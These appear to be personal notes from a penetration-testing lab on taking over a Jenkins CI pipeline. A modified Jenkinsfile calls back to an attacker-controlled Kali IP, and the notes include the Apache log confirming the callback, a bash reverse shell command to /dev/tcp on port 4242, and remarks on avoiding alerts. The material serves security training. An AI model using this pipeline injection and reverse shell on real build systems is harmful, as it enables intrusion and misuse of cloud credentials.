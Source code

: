 ```bash
  }
}
```
- This current script will crash if it's executed on a Windows box. Let's modify it to only execute if we're running on a Unix-based system. We'll do this by adding an if statement under the script and using the isUnix function to verify the OS. We'll also change the curl command to confirm that we're running on a Unix system. This is very useful for debugging if something goes wrong.
- Everything we're doing in this example does not require access to the internal Groovy APIs and won't require additional approval.
```bash
pipeline {
  agent any
  stages {
    stage('Build') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            if (isUnix()) {
              sh 'curl http://192.88.99.76/unix' # Cloud kali ip given by the lab
            }
          }
        }
      }
    }
  }
}
```
- Let's take a moment to test this code out. In a real-world scenario, we might hold off on running this to avoid triggering some kind of alert. However, in this case, we can execute the pipeline multiple times.
- To test this, we first need to start Apache on Kali to capture the callback from curl and a listener to capture the reverse shell. Let's ssh into our cloud Kali machine using the password provided when the lab was started.
- Next, we'll start apache2 by running sytemctl and the start verb to start the apache2 service.
```bash
ssh kali@<Kali-Cloud>
sudo systemctl start apache2
```
- Next, we need to update the Jenkinsfile in the repo and trigger the pipeline to start. We could clone the repo and push it via the git command, but Gitea provides a simpler way to do this via the UI.
- Let's return to the Jenkinsfile in the SCM server and click the Edit button.
- The pipeline code that we have provided should execute fairly quickly. However, it will still take a few moments for the webhook to be executed and for Jenkins to initialize the environment. Shortly after we commit the Jenkinsfile, we can check the Apache logs in /var/log/apache2/access.log. We're searching for a hit on the /unix endpoint, which will confirm we can execute code and that we're running a Unix-based system.
```bash
cat /var/log/apache2/access.log # GOt request with 404
# 54.157.240.196 - - [16/Dec/2024:04:40:33 +0000] "GET /unix HTTP/1.1" 404 436 "-" "curl/7.74.0"
bash -i >& /dev/tcp/<Kali Cloud>/4242 0>&1
# Git shell with uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins), sudo -l is not working
```
- Although this command may seem complex, we can break it down to better understand it. It's executing an interactive (-i) bash session, redirecting both stdout and stderr (>&) of that bash session to the Kali machine (/dev/tcp/192.88.99.76/4242) and also redirecting stdin from the network connection to the bash session. This effectively allows us to interact with the reverse shell.
- While other reverse shells that use Perl and Python exist, we want to limit our reliance on additional languages that might not be installed on the target.